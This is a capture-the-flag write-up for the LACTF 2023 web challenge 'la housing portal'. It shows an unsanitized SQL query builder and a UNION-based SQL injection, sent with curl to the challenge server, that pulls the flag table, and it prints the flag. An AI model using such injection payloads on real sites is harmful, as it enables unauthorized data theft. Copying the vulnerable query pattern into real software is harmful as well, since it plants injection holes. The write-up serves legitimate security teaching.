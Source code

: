 # LACTF 2023

## la housing portal

> **Portal Tips Double Dashes ("--")** Please do not use double dashes in any text boxes you complete or emails you send through the portal. The portal will generate an error when it encounters an attempt to insert double dashes into the database that stores information from the portal.
Also, apologies for the very basic styling. Our unpaid LA Housing(tm) RA who we voluntold to do the website that we gave FREE HOUSING for decided to quit - we've charged them a fee for leaving, but we are stuck with this website. Sorry about that.
> 
> Please note, we do not condone any actual attacking of websites without permission, even if they explicitly state on their website that their systems are vulnerable.
> 
> Author: burturt
> 
> [`serv.zip`](serv.zip)

Tags: _web_

## Solution
The description already gives it away, the given web-app is vulnerable to SQL-injection. The web app lets us search for matching roommates and the function that builds the sql query does no sanitazion at all (well to stick to the truth, there is a tiny bit of sanitazion happening beforehand..).

```python
def get_matching_roommates(prefs: dict[str, str]):
    if len(prefs) == 0:
        return []
    query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
    )
    print(query)
    conn = sqlite3.connect('file:data.sqlite?mode=ro', uri=True)
    cursor = conn.cursor()
    cursor.execute(query)
    r = cursor.fetchall()
    cursor.close()
    return r
```

Since the sqlite database is given, we can beforehand inspect where the flag can be found. This makes things a bit easier, but would not be exactly necessary.

```bash
sqlite> .tables
awake     flag      guests    neatness  sleep     users
sqlite> .schema flag
CREATE TABLE flag (
flag text
);
sqlite> .schema users
CREATE TABLE IF NOT EXISTS "users"
(
    id       integer not null
        constraint users_pk
            primary key autoincrement,
    name     TEXT,
    guests   TEXT,
    neatness text,
    sleep    TEXT    not null,
    awake    text
);
sqlite> select * from users union select 1,flag,3,4,5,6 from flag;
1|Finn Carson|No guests at all|Put things away as we use them|8-10pm|4-6am
1|lactf{fake_flag}|3|4|5|6
2|Aldo Young|No guests at all|Put things away as we use them|8-10pm|6-8pm
...
```

This looks like a [`SQL Injection using UNION`](https://www.sqlinjection.net/union/) would work. Also comments are not really needed here, just injecting `' union select 1,flag,3,4,5,6 from flag'` to the last parameter gives us the flag.

```bash
curl -X POST https://la-housing.chall.lac.tf/submit -d "name=&guests=na&neatness=na&sleep=na&awake=4-6am\' union select 1,flag,3,4,5,6 from flag'"
```

Flag `lactf{us3_s4n1t1z3d_1npu7!!!}`